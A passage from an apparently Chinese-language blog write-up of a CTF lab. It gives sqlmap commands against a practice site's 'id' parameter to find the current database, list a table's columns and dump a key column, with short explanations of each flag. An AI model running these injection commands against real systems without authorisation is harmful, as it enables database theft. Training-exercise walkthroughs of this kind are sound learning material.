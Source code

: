 <img src="http://upload-images.jianshu.io/upload_images/2883590-2ce5b20ee03d331a.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240" data-original-src="http://upload-images.jianshu.io/upload_images/2883590-2ce5b20ee03d331a.png?imageMogr2/auto-orient/strip" data-image-slug="2ce5b20ee03d331a" data-width="305" data-height="118"><br><div class="image-caption"></div>
</div><hr><p>其实也可以先查看当前使用的数据库，而不是每个数据库都看一看，这里只有两个，万一有十几个数据库怎么办。</p><p>sqlmap -u "http://ctf5.shiyanbar.com/8/index.php?id=1" --current-db</p><p><br></p><div class="image-package">
<img src="http://upload-images.jianshu.io/upload_images/2883590-4a9c4879647f6071.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240" data-original-src="http://upload-images.jianshu.io/upload_images/2883590-4a9c4879647f6071.png?imageMogr2/auto-orient/strip" data-image-slug="4a9c4879647f6071" data-width="455" data-height="76"><br><div class="image-caption"></div>
</div><hr><p>sqlmap -u "http://ctf5.shiyanbar.com/8/index.php?id=1" -D my_db -T thiskey --column</p><p>--columns：指定列出字段</p><div class="image-package">
<img src="http://upload-images.jianshu.io/upload_images/2883590-a6261ae4649b44b0.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240" data-original-src="http://upload-images.jianshu.io/upload_images/2883590-a6261ae4649b44b0.png?imageMogr2/auto-orient/strip" data-image-slug="a6261ae4649b44b0" data-width="336" data-height="154"><br><div class="image-caption"></div>
</div><hr><p>sqlmap -u "http://ctf5.shiyanbar.com/8/index.php?id=1" -D my_db -T thiskey -C k0y --dump</p><p>-T：指定要列出字段的表；-C ：指定要暴的字段；--dump：将结果导出</p><div class="image-package">
<img src="http://upload-images.jianshu.io/upload_images/2883590-42ff2f356e30d051.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240" data-original-src="http://upload-images.jianshu.io/upload_images/2883590-42ff2f356e30d051.png?imageMogr2/auto-orient/strip" data-image-slug="42ff2f356e30d051" data-width="271" data-height="157"><br><div class="image-caption"></div>
</div>
        </div>
      </div>
    </div>
  </body>
</html>
